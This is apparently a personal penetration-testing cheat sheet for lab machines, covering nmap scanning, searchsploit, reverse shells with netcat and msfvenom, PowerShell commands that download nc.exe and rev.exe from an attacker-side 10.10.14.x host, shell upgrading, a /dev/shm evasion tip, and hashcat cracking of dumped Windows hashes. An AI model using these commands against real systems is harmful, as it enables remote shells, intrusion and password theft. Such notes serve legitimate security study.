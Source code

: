 # Cheatsheet
# Discovery
## nmap
```bash
# Shows version information
nmap -sC -sV -oA <name> <ip>
```
## burp
Proxy localhost port to remote port
![](2020-12-16-11-09-48.png)
![](2020-12-16-11-10-08.png)

## WebDAV
```bash
cadaver <ip>
davtest <url> # does not work with any other port than 80 for some reason
```

# Exploiting
## exploit-db
```bash
# local exploit-db
searchsploit "service name"
# show code of exploit
searchsplot -x <path number>
# mirror it to current dir
searchsplot -m <path number>
```


## Reverse shell

Listen locally with nc
```bash
# n is important!
nc -lvnp 4444
```

Remote (Windows):
```
nc.exe -e cmd.exe <local ip> 4444
```

Python web server and download with PS

```
python3 -m http.server 80
powershell Invoke-Webrequest -OutFile C:\temp\nc.exe -Uri http://10.10.14.116/nc.exe
powershell (new-object System.Net.WebClient).Downloadfile('http://10.10.14.16:8000/rev.exe', 'rev.exe')
```

```
# Windows nc reverse shell without meterpreter (not staged)
msfvenom -p windows/shell_reverse_tcp
```



## Interactive terminal

Using Python for a pseudo terminal

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

# In reverse shell
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Kali
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

## Sharing files
```
python3 -m http.server 8000
```



# Tools
https://github.com/infodox/python-pty-shells
## vim save with sudo
```
:w !sudo tee %
```
## tmux
```bash
# new session
tmux new -s <name>
# list
tmux ls
# attach
tmux attach -t <name>

## tmux options
run-shell /opt/tmux-logging/logging.tmux
```
prefix key: ctrl+b
|Purpose|Prefix|
|-|-|
|c|new tab|
|[0-9]|go to tab n|
|d|detach|
|%|vertical split|
|"|horizontal split|
|arrow keys|move to pane|
|z|toggle zoom into pane|
|x|kill pane|
|$|rename session|
|,|rename tab|
|space|cycle looks|
|t|show time|
|:set -g mouse on|enable mouse|

## msfvenom
Payload generator
example aspx generator for reverse shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f aspx > shell.aspx
```

## msfconsole
```bash
# Generic reverse shell for use with the payload.
use exploit/multi/handler

# Suggest working exploits for detected version
use post/multi/recon/local_exploit_suggester
```

# Detection evasion
## Linux
`/dev/shm` is a ramdisk -> not saved for ever

# Note keeping
Cherry Tree - Hierarchical tool with code highlight and screen capture
ctrl+shift+prtscr for screenshot selection

# Resources
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

# Cryptography
http://rumkin.com/tools/cipher/
https://gchq.github.io/CyberChef/

## Password cracking
### hashcat
LM hash with hashcat windows
```bash
# grandma_lm.txt:
    # Administrator:500:c74761604a24f0dfd0a9ba2c30e462cf:d6908f022af0373e9e21b8a241c86dca:::
    # ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
    # Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    # IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::
    # IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::
    # Lakis:1009:f927b0679b3cc0e192410d9b0b40873c:3064b6fc432033870c6730228af7867c:::
    # SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::
hashcat -a 3 -m 3000 grandma_lm.txt
hashcat -a 3 -m 3000 grandma_lm.txt --show
# c74761604a24f0dfd0a9ba2c30e462cf:IHRNWUIENDKE
# aad3b435b51404eeaad3b435b51404ee:
# f927b0679b3cc0e192410d9b0b40873c:KEHITBIJJFDE
# aad3b435b51404eeaad3b435b51404ee:
# returned the lm hashes, we need to know upper/lowercase though

hashcat -a 0 -m 1000 grandma_lm.txt gma.dict -r rules/toggles5.rule --show
# d6908f022af0373e9e21b8a241c86dca:IhrNwuiEndkE
```

https://crackstation.net/

# Paths to useful directories
Windows binaries: /usr/share/windows-binaries
Seclists: /usr/share/seclists



<script id="asciicast-qvjqOSa14AHoN5IQgdKUVeshc" src="https://asciinema.org/a/qvjqOSa14AHoN5IQgdKUVeshc.js" async></script>